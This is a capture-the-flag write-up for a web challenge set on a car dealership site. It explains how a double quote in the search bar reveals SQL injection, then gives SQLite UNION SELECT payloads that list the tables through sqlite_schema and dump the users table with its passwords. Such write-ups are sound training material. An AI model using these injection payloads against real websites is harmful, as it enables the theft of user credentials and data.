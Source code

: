 # CRAZY UNCLE BEN'S CRAZY CAR DEALERSHIP

## Challenge description: 
We all got a crazy uncle Ben, and this one runs a car dealership! In typical uncle Ben fashion, he didn't check to see if his website had any vulnerabilities. Can you find all of the user's passwords?

## Hints
- Ever heard of SQLite injection?
- https://www.sqlite.org/faq.html#q7 
- Try to find the "users" table

## Solution
We know that we're looking for the user's passwords, so we need to find a database somewhere. When we put a double quote into the search bar, we see that it throws a server error. This means it's vulnerable to SQL Injection.
Now we need to find the users table. You could either guess the name or you could be fancy and find the table using the sqlite_schema table. 
We can infer that the command looks something like this
```sql
SELECT * FROM "cars" WHERE "model" LIKE "%{query}%";
```
So if we use SQL injection and the sqlite_schema table, the query will look something like this 
```sql
SELECT * FROM "cars" WHERE "model" LIKE "%" UNION SELECT name, 2, 3 FROM "sqlite_schema";--%";
```
So if we put " UNION SELECT name, 2, 3 FROM sqlite_schema;-- into the search bar, we get the names of the tables, cars and users. 
Now we use injection again to find the users
```sql
SELECT * FROM "cars" WHERE "model" LIKE "%" UNION SELECT * FROM "users";--%";
```
Now we get our users, and the flag